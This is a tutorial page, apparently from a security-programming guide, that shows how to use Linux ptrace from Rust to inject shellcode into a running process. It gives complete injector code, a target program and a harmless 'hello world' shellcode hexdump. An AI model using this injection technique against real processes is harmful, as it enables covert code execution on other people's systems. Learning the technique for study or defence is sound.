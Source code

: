 +++
title = "Injection with PTRACE"
weight = 1
+++

In this section, we'll look at how the `ptrace` system call on Linux can be used to inject code into a running process to make it execute the code you want.

The ptrace system call allows you to attach yourself to a process and control its execution, modify its memory space and consult its registers. It is used by debuggers such as GDB. Attaching to a process with this system call is called tracing.

Here, we're going to modify the RIP register and replace the process instructions with our own.

The target process is the following program, i.e. it is possible to attack any process as long as [permissions allow](https://www.kernel.org/doc/html/v5.10//admin-guide/LSM/Yama.html).

This is our target program, `my_process.c`:
```rust
#include <stdio.h>
#include <unistd.h>

int main() {
	while(1) {
		puts("Hi !");
		sleep(1);
	}
}
```

```bash
>>> gcc my_process.c -o my_process
>>> ./my_process
Hi !
Hi !
...
```

To use the `ptrace` call, we'll use the **Nix** library with the `ptrace` _feature_.

```bash
cargo add nix --features=ptrace
```

Our Cargo.toml file contains the following dependencies:
```toml
[dependencies]
nix = { version = "0.27.1", features = ["ptrace"] }
```

The Nix crate provides the various parameters available in `ptrace` in separate functions available in the `nix::sys::ptrace` module.

Note that all these functions take as their first parameter the PID of the process on which the action is to be performed, and the call to the attach function must have already been called on the target process.

Here's our instruction injection program:
```rust
use nix::sys::ptrace::{attach, detach, getregs, setregs, write};
use nix::sys::wait::{waitpid, WaitPidFlag};
use nix::unistd::Pid;
use std::ffi::c_void;
use std::fs;

fn get_pid_from_name_attachable(process_name: &str) -> Option<pid> {
    let pid_dirs = fs::read_dir("/proc").unwrap();
    for dir_raw in pid_dirs {
        if dir_raw.is_err() {
            continue;
        }
        let dir = dir_raw.unwrap();
        let dir_pid = dir.file_name().to_str().unwrap().parse::<u32>();
        if dir_pid.is_err() {
            // we only want PIDs
            continue;
        }
        let dir_pid = dir_pid.unwrap();
        match fs::read(format!("/proc/{}/comm", dir_pid)) {
            Ok(res) => {
                let comm_raw = String::from_utf8(res).unwrap();
                let comm = comm_raw.strip_suffix('\n').unwrap();
                if comm == process_name
                    && attach(Pid::from_raw(dir_pid as i32)).is_ok()
                // Check if it has the same name and is attachable
                {
                    return Some(Pid::from_raw(dir_pid as i32));
                }
            }
            Err(_) => continue,
        }
    }
    return None;
}

fn main() {
    let shellcode = include_bytes!("../shellcode.bin");
    let args: Vec<String> = std::env::args().collect();
    if args.len() != 2 {
        eprintln!("Usage: {} <target process name>", args.get(0).unwrap());
        return 
    }

    let process_name = args.get(1).unwrap(); // Target process

    // Wait for the process to change to a stopped state, then dump its registers
    let target_pid = match get_pid_from_name_attachable(process_name) {
        Some(v) => v,
        None => {
            panic!("Could not get process '{}''s pid or could not attach to it", process_name);
        }
    };

    // Wait for the SIGSTOP signal sent to the process when the attach function was called
    if let Err(error) = waitpid(target_pid, Some(WaitPidFlag::WUNTRACED)) {
        panic!(
            "Could not wait for the {} to change state: {}",
            process_name, error
        );
    }

    // Get registers to extract RIP
    let mut registers = match getregs(target_pid) {
        Ok(value) => value,
        Err(error) => panic!(
            "Could not get registers for process '{}': {}",
            process_name, error
        ),
    };

    let mut writer_cursor = registers.rip;
    // advance RIP of 2 to launch our shellcode
    registers.rip += 2;

    // Re-inject new RIP inside the process
    if let Err(error) = setregs(target_pid, registers) {
        panic!(
            "Unable to reset process '{}''s registers: {}",
            process_name, error
        );
    }

    // Write shellcode inside the memory of the process
    for byte in shellcode {
        match unsafe {
            write(
                target_pid,
                writer_cursor as *mut c_void,
                *byte as *mut c_void,
            )
        } {
            Err(error) => panic!("Unable to write into process '{}' byte {}: {}",process_name, byte, error),
            Ok(_) => writer_cursor += 1
        }
    }

    // we detach ourself from the process, allowing it to continue running
    if let Err(error) = detach(target_pid, None) {
        panic!(
            "Unable to detach from process '{}': {}",
            process_name, error
        );
    }
    // here the target process has resumed execution on the shellcode
}
```

This program works as follows:

1. Retrieve the PID of the target process by searching all folders in `/proc/` where the name is a PID and the process invocation command is the name of the process you are looking for, which must be attachable with `ptrace`.
2. Wait for the process to be attached by waiting for it to be stopped with waitpid, the `SIGSTOP` signal indicating that the process is attached.
3. Get the process registers with `getregs`, then get `RIP` in a variable, adding 2 to `RIP` so that our instructions are executed directly after we detach from the process.
4. We write our instructions to the location pointed to by `RIP`.
5. We detach from the process so that it can resume its course of execution.

In this example, we're going to execute instructions to display "hello world", here's its hexdump:
```
00000000: 488d 3513 0000 006a 0158 6a0c 5a48 89c7  H.5....j.Xj.ZH..
00000010: 0f05 6a3c 5831 ff0f 05c3 6865 6c6c 6f20  ..j<X1....hello 
00000020: 776f 726c 640a                           world.
```

When we run our program on the "my\_process" process, we can see that the string "hello world" is displayed:
```
>>> cargo build
>>> sudo ./target/debug/ptrace_inject my_process
```

```
>>> ./my_process
Hi !
Hi !
Hi !
...
Hi !
Hi !
hello world
>>> 
```

